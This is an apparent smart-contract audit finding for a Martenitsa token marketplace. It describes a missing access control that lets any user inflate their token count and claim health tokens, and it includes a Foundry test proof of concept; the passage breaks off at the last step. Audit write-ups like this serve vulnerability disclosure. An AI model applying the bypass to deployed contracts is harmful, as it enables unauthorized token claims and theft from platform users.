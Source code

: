 **Impact:** This vulnerability can lead to unauthorized access to health tokens, potentially allowing users to participate in events as producers without the necessary qualifications. This could disrupt event schedules, compromise the integrity of the platform, and undermine user trust.

**Proof of Concept:** Unrestricted Claim of Health Tokens Without Martenitsa Token Purchase

1. Start the Test Environment:
   Initialize the Foundry virtual machine (VM) and set the test environment to simulate the conditions of the vulnerability :

   ```javascript
   function testAnyoneCanGetHealthTokensUsingCollectReward() public {
    vm.startPrank(bob);
    for (uint64 i = 0; i < 90; i++) {
        martenitsaToken.updateCountMartenitsaTokensOwner(bob, "add");
    }
    //increase Bob's token count without buying MartenitsaToken to 90 by calling getCountMartenitsaTokensOwner
    uint bobTokenCount = martenitsaToken.getCountMartenitsaTokensOwner(bob);
    assertEq(bobTokenCount, 90);
    //Ensure Bob doesn't actually have Martenitsa Tokens
    assertEq(martenitsaToken.isProducer(bob), false);
    assertEq(martenitsaToken.balanceOf(bob), 0);
    //Bob Shouldn't be able to get 30 healthTokens but he will as a result of lack of access control
    marketplace.collectReward();
    //token value represented in wei
    uint weiEq = 10 ** 18;
    assertEq(healthToken.balanceOf(bob) / weiEq, 30);
   }
   ```

2.Simulate User Actions:
Use the `vm.startPrank(bob)` function to simulate actions as the user "Bob".
Execute the `updateCountMartenitsaTokensOwner` function 90 times for Bob, incrementing his token count without the need to purchase Martenitsa tokens:

```javascript
        for (uint64 i = 0; i < 90; i++) {
    @>        martenitsaToken.updateCountMartenitsaTokensOwner(bob, "add");
      }

```

3. Verify Token Count:
   Call getCountMartenitsaTokensOwner(bob) to verify that Bob's token count has been increased to 90.
   Assert that Bob does not have Martenitsa tokens (isProducer(bob) should return false) and that his Martenitsa token balance is 0:

   ```javascript
   assertEq(martenitsaToken.isProducer(bob), false);
   assertEq(martenitsaToken.balanceOf(bob), 0);
   ```

4. Attempt to Claim Health Tokens:
   Call `marketplace.collectReward()` to simulate Bob attempting to claim health tokens.
   Assert that Bob's health token balance is increased by 30 tokens, despite not having purchased Martenitsa tokens:
